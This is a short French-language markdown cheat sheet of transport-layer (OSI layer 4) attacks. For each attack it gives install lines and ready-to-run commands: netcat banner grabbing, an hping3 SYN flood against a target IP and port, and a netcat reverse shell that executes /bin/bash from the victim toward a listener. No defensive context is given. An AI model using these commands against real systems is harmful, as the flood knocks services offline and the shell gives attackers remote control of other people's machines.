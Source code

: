 # Couche 4 – Transport

## 1. Types d'attaques
- Banner Grabbing  : Récupérer les bannières de services pour identifier leurs versions.
- DoS/SYN Flood/UDP Flood  : Saturer un port ou un service pour le rendre indisponible.
- Reverse Shell / Bind Shell  : Prendre la main sur un système distant via une connexion réseau.

## 2. Outils et méthodes

### ⚡ Attaque : Banner Grabbing

#### Outil : Netcat
**Description** : Permet de se connecter à n’importe quel port pour récupérer la bannière.
**Installation** : sudo apt install netcat
**Commande** : nc [IP cible|192.168.1.1] [port|80]

---

### ⚡ Attaque : DoS/SYN Flood/UDP Flood

#### Outil : Hping3
**Description** : Génère des floods TCP/UDP.
**Installation** : sudo apt install hping3
**Commande** : sudo hping3 -S --flood -p [port|80] [IP cible|192.168.1.1]

---

### ⚡ Attaque : Reverse Shell / Bind Shell

#### Outil : Netcat
**Description** : Permet de créer des shells à distance très facilement.
**Installation** : sudo apt install netcat
**Commande** : nc -lvp [port|4444]
**Commande** : nc [IP cible|192.168.1.1] [port|4444] -e /bin/bash
**Info** : Une commande côté écouteur (serveur), l’autre côté client (victime).

